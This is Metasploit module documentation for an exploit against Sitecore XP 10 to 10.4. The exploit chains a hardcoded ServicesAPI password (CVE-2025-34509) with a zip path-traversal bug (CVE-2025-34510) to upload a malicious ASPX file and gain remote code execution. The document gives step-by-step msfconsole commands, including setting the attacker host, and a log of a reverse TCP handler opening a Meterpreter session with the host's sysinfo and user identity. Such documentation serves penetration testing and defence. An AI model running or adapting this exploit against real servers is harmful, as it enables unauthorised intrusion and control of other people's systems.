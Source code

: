 ## Vulnerable Application

The Sitecore Experience Platform (XP) is a flagship CMS product.
Provides comprehensive digital marketing tools, view of customer data and many other features.
Sitecore deploys multiple default service accounts when installing, among them is an account called ServicesAPI.
The versions from 10 to 10.4 have a hardcoded password for this account - the password is the letter b (CVE-2025-34509).
This account is used to gain access and exploit an additional vulnerability - a path traversal in zip extraction (CVE-2025-34510).
This module exploits both vulnerabilities to gain remote code execution by uploading malicious ASPX into the root directory of the webserver.

### Installation

The Sitecore XP can be downloaded from [here](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform).
Please note that a license is required for successful installation.


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/sitecore_xp_cve_2025_34510`
1. Do: `set RHOSTS [Sitecore XP IP address]`
1. Do: `set VHOST [Sitecore XP hostname]`
1. Do: `set IDENTITY_VHOST [hostname of Sitecore XP identity server]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### VHOST

The hostname of Sitecore XP.
When installed, Sitecore XP deploys multiple vhosts, among them is the Sitecore XP host, where a user can access majority of functions.


### IDENTITY_VHOST

The Sitecore XP uses separate vhost for "identity host", which is used when user is authenticating and asking for session data.
If you are not sure about `IDENTITY_VHOST`, you can visit `https://[sitecore instance]/identity/login/shell/SitecoreIdentityServer`.
The hostname of page where the URL will redirect you can be used as `IDENTITY_VHOST`.

## Scenarios

```
msf exploit(windows/http/sitecore_xp_cve_2025_34510) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34510) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Sitecore version detected 10.3.0, which is vulnerable
[*] Sending stage (203846 bytes) to 10.5.132.138
[*] Meterpreter session 2 opened (192.168.3.7:4444 -> 10.5.132.138:50530) at 2025-08-26 13:05:53 +0200

meterpreter > sysinfo
Computer        : WIN11_22H2_0800
OS              : Windows 11 22H2 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IIS APPPOOL\sitecorepocsc.dev.local
```
